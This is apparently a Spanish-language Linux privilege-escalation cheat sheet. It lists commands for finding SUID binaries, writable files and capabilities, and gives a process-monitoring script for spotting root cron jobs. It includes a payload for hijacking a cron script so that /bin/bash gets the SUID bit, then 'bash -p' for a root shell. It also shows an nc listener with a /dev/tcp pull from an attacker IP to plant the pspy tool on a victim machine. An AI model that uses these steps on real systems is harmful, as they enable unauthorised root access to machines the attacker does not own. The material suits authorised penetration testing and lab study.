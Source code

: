 -- -- 
Comando utilizado para aplicar un barrido en el sistema y detectar binarios con el privilegio SUID.
```bash
find / -type f -perm /4000 -exec ls -l {} \; 2>/dev/null
```

Comando utilizado para aplicar un barrido en el sistema y ver que archivos tienen capacidad de escritura.
```bash
find / -writable 2>/dev/null
```

Comando utiliado para aplicar un barrido a nivel de sistema con el fin de detectar archivos .py para intentar realizar un Python Library Hijacking.
```bash
find / -type f -name "*.py" 2>/dev/null
```

Comando utilizado para realizar una buscada en el sistema de capabilities asociadas a binarios.
```bash
getcap -r / 2>/dev/null
```

-- - 
## Deteccion y explotacion de tareas Cron

Script en bash para detectar que usuarios estan ejecutando comandos en el sistema:
```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon|command|kworker"
        old_process=$new_process
done
```

Si luego de ejecutar el anterior script descubrimos que el usuario root esta ejecutando un script mediante una tarea cron, podemos modificar el script y poner esto para escalar privilegios
```bash
#!/bin/bash 

sleep 2 
chmod u+s /bin/bash
```

Una vez hayamos modificado el script y se aplique el privilegio SUID, tenemos que abrir una bash "privilegiada"
```bash 
bash -p 
```

Tambien podriamos usar el script *pspy* para descubrir esto mismo. ---> https://github.com/DominicBreuker/pspy
Luego, para "adentrarlo" en la maquina victima lo podemos hacer de la siguiente manera (sin uso de curl, wget, etc)
```bash
# Atacante:
nc -nlvp 443 < pspy
md5sum pspy
# Victima 
cat < /dev/tcp/192.168.64.128/443 > pspy
md5sum pspy
# Si los 2 hashes son iguales es que el script fue transferido de forma exitosa.
```
-- - 
## Scripts que automatizan la enumeracion del sistema
- **lse.sh** (./lse.sh -l 1)---> https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- **linepeas.sh** ---> https://github.com/peass-ng/PEASS-ng/releases/tag/20240818-ea81ae32
- **linux-exploit-suggester** ---> https://raw.githubusercontent.com/mzet-/linux-exploit-suggester
-- - 

